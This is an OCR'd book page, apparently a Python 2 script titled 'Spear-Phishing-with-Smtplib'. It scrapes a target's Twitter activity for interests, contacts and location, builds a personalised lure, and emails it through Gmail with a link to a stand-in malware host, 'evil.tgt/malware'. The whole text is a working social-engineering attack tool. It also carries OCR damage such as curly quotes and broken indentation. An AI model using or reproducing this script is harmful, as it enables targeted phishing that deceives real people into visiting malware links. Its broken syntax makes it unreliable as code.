 # Spear-Phishing-with-Smtplib

import smtplib
import optparse
from email.mime.text import MIMEText
from twitterClass import *
from random import choice
def sendMail(user,pwd,to,subject,text):
  msg = MIMEText(text)
  msg[’From’] = user
  msg[’To’] = to
  msg[’Subject’] = subject
  try:
   smtpServer = smtplib.SMTP(’smtp.gmail.com’, 587)
   print "[+] Connecting To Mail Server."
   smtpServer.ehlo()
   print "[+] Starting Encrypted Session."
   smtpServer.starttls()
   smtpServer.ehlo()
   print "[+] Logging Into Mail Server."
   smtpServer.login(user, pwd)
   print "[+] Sending Mail."
   smtpServer.sendmail(user, to, msg.as_string())
   smtpServer.close()
  print "[+] Mail Sent Successfully."
  except:
   print "[-] Sending Mail Failed."
def main():
  parser = optparse.OptionParser(’usage%prog ’+\
   ’-u <twitter target> -t <target email> ’+\
   ’-l <gmail login> -p <gmail password>’)
  parser.add_option(’-u’, dest=’handle’, type=’string’,\
   help=’specify twitter handle’)
  parser.add_option(’-t’, dest=’tgt’, type=’string’,\
   help=’specify target email’)
  parser.add_option(’-l’, dest=’user’, type=’string’,\
   help=’specify gmail login’)
  parser.add_option(’-p’, dest=’pwd’, type=’string’,\
   help=’specify gmail password’)
  (options, args) = parser.parse_args()
Mass Social Engineering 241
  handle = options.handle
  tgt = options.tgt
  user = options.user
  pwd = options.pwd
  if handle == None or tgt == None\
   or user ==None or pwd==None:
    print parser.usage
    exit(0)
  print "[+] Fetching tweets from: "+str(handle)
  spamTgt = reconPerson(handle)
  spamTgt.get_tweets()
  print "[+] Fetching interests from: "+str(handle)
  interests = spamTgt.find_interests()
  print "[+] Fetching location information from: "+\
   str(handle)
  location = spamTgt.twitter_locate(’mlb-cities.txt’)
  spamMsg = "Dear "+tgt+","
  if (location!=None):
   randLoc=choice(location)
   spamMsg += " Its me from "+randLoc+"."
  if (interests[’users’]!=None):
   randUser=choice(interests[’users’])
   spamMsg += " "+randUser+" said to say hello."
  if (interests[’hashtags’]!=None):
   randHash=choice(interests[’hashtags’])
   spamMsg += " Did you see all the fuss about "+\
   randHash+"?"
  if (interests[’links’]!=None):
   randLink=choice(interests[’links’])
   spamMsg += " I really liked your link to: "+\
    randLink+"."
  spamMsg += " Check out my link to http://evil.tgt/malware"
  print "[+] Sending Msg: "+spamMsg
  sendMail(user, pwd, tgt, ’Re: Important’, spamMsg)
if __name__ == ’__main__’:
  main()
